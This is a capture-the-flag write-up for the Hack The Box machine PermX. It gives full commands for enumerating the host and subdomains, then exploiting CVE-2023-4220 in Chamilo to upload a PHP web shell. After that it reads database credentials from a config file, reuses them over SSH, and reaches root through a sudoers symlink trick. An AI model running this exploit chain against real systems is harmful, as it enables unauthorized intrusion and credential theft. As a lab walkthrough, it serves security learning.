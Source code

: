 # PermX-HTB-Writeup

## Exploration

### Initial Nmap Scan
We begin by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sC -sV -Pn -v 10.10.11.23
```
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Update Hosts File
To access the web application, we need to add the discovered subdomain to our hosts file.

```bash
sudo nano /etc/hosts 
```

### Visit the Web Application
Access the web application by navigating to `http://permx.htb` in your browser.

![Web Application](https://github.com/Milamagof/PermX-HTB-writeup/blob/fd87ecf5fc22f26189997e20e4e82a033bd6bfdb/Screenshot_2024-07-07_11_57_41.png)

### Directory Search
Perform a directory search to find hidden files and directories on the web server.

```bash
dirsearch -u http://permx.htb/ -x 403,404,400
```
```bash
[04:28:32] Starting:                                                             
[04:28:35] 301 -  303B  - /js  ->  http://permx.htb/js/                     
[04:28:44] 200 -    3KB - /404.html                                         
[04:28:46] 200 -    4KB - /about.html                                       
[04:29:11] 200 -    3KB - /contact.html                                     
[04:29:12] 301 -  304B  - /css  ->  http://permx.htb/css/                   
[04:29:24] 301 -  304B  - /img  ->  http://permx.htb/img/                   
[04:29:26] 200 -  448B  - /js/                                              
[04:29:28] 200 -  491B  - /lib/                                             
[04:29:28] 301 -  304B  - /lib  ->  http://permx.htb/lib/
[04:29:29] 200 -  649B  - /LICENSE.txt
```

### Subdomain Enumeration
Discover subdomains associated with the target domain using Wfuzz.

```bash
wfuzz -c --hc 400,404 -t 200 --hl 9 -w subdomains-top1million-110000.txt -u http://permx.htb -H "Host: FUZZ.permx.htb"
```
```bash
000000001:   200        586 L    2466 W     36182 Ch    "www"           
000000477:   200        352 L    940 W      19347 Ch    "lms"
```

![Subdomain](https://github.com/Milamagof/PermX-HTB-writeup/blob/fd87ecf5fc22f26189997e20e4e82a033bd6bfdb/Screenshot_2024-07-07_04_35_32.png)

### Directory Fuzzing on Subdomain
Perform directory fuzzing on the discovered subdomain to find additional hidden paths.

```bash
wfuzz -c --hc 400,404 -t 200  -w subdomains-top1million-110000.txt -u http://lms.permx.htb/FUZZ
```
```bash
000000328:   301        9 L      28 W       313 Ch      "main"                     
000000111:   301        9 L      28 W       312 Ch      "app"                      
000003062:   301        9 L      28 W       312 Ch      "src"                      
000002832:   301        9 L      28 W       322 Ch      "documentation"            
000009532:   200        352 L    940 W      19347 Ch    "#www"                     
000009838:   301        9 L      28 W       312 Ch      "bin"                      
000010581:   200        352 L    940 W      19347 Ch    "#mail"                    
000006335:   301        9 L      28 W       315 Ch      "plugin"                   
000002329:   301        9 L      28 W       315 Ch      "vendor"                   
000000044:   301        9 L      28 W       312 Ch      "web"                      
000047706:   200        352 L    940 W      19347 Ch    "#smtp"                    
000103135:   200        352 L    940 W      19347 Ch    "#pop3"
```

### Directory Enumeration with Gobuster
Run Gobuster to further enumerate directories on the subdomain.

```bash
gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirb/common.txt
```
```bash

/app                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/app/]
/bin                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/bin/]
/certificates         (Status: 301) [Size: 321] [--> http://lms.permx.htb/certificates/]
/documentation        (Status: 301) [Size: 322] [--> http://lms.permx.htb/documentation/]
/index.php            (Status: 200) [Size: 19356]
/main                 (Status: 301) [Size: 313] [--> http://lms.permx.htb/main/]
/plugin               (Status: 301) [Size: 315] [--> http://lms.permx.htb/plugin/]
/src                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/src/]
/vendor               (Status: 301) [Size: 315] [--> http://lms.permx.htb/vendor/]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
```

### Vulnerability Exploitation
Exploit a vulnerability to gain access to the system. In this case, we use [CVE-2023-4220](https://starlabs.sg/advisories/23/23-4220/) to upload a reverse shell.

Use [p0wny-shell](https://github.com/flozz/p0wny-shell) 

```bash
curl -F 'bigUploadFile=@/home/kali/HTB/permx/reverse_shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
![P0wny-shell](https://github.com/Milamagof/PermX-HTB-writeup/blob/fd87ecf5fc22f26189997e20e4e82a033bd6bfdb/Screenshot_2024-07-07_05_54_34.png)

### Extract Database Credentials
After gaining access, extract database credentials from the configuration file.

```bash
cat /var/www/chamilo/app/config/configuration.php
```
```bash
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6 *******bkW8';
```

### SSH Login
Use the extracted credentials to log in via SSH.

```bash
ssh mtz@10.10.11.23
pass: 03F6 *******bkW8
```

### Capture User Flag
Navigate to the user's home directory and capture the user flag.

```bash
mtz@permx:~$ ls
user.txt
mtz@permx:~$ cat user.txt
d914******************2d7f
```

### Privilege Escalation
Check sudo privileges and exploit them to escalate privileges to root.

```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

### Modify Sudoers File
Exploit the allowed script to gain write access to the sudoers file and grant full sudo privileges.

```bash
mtz@permx:~$ ln -s /etc/sudoers /home/mtz/sudoers
mtz

@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/sudoers
mtz@permx:~$ nano /etc/sudoers
mtz@permx:~$ sudo su
root@permx:/home/mtz# 
```

### Capture Root Flag
Navigate to the root directory and capture the root flag.

```bash
root@permx:/home/mtz# sudo su
root@permx:/# cd /root
root@permx:~# ls
backup  reset.sh  root.txt
root@permx:~# cat root.txt
be9de*****************0e6c3c8d13

```






